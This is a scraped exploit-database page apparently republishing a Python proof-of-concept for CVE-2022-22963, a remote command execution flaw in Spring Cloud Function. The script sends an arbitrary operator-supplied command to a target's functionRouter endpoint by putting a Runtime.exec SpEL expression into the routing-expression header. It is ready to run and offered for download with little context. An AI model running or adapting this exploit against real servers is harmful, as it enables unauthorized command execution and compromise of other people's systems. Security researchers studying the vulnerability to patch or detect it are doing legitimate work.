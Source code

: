 ```yaml
---
title: Spring Cloud 3.2.2 - Remote Command Execution Exploit exploit
url: https://sploitus.com/exploit?id=1337DAY-ID-38858&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-07-12
fetch_date: 2025-10-04T11:53:48.695985
---
```


# Spring Cloud 3.2.2 - Remote Command Execution Exploit exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Spring Cloud 3.2.2 - Remote Command Execution Exploit CVE-2022-22963

2023-07-11 | CVSS 9.8

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=1337DAY-ID-38858
# Exploit Title: Spring Cloud 3.2.2 - Remote Command Execution (RCE)
# Exploit Author: GatoGamer1155, 0bfxgh0st
# Vendor Homepage: https://spring.io/projects/spring-cloud-function/
# Description: Exploit to execute commands exploiting CVE-2022-22963
# Software Link: https://spring.io/projects/spring-cloud-function
# CVE: CVE-2022-22963

import requests, argparse, json

parser = argparse.ArgumentParser()
parser.add_argument("--url", type=str, help="http://172.17.0.2:8080/functionRouter", required=True)
parser.add_argument("--command", type=str, help="ping -c1 172.17.0.1", required=True)
args = parser.parse_args()

print("\n\033[0;37m[\033[0;33m!\033[0;37m] It is possible that the output of the injected command is not reflected in the response, to validate if the server is vulnerable run a ping or curl to the attacking host\n")

headers = {"spring.cloud.function.routing-expression": 'T(java.lang.Runtime).getRuntime().exec("%s")' % args.command }
data = {"data": ""}

request = requests.post(args.url, data=data, headers=headers)
response = json.dumps(json.loads(request.text), indent=2)
print(response)
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)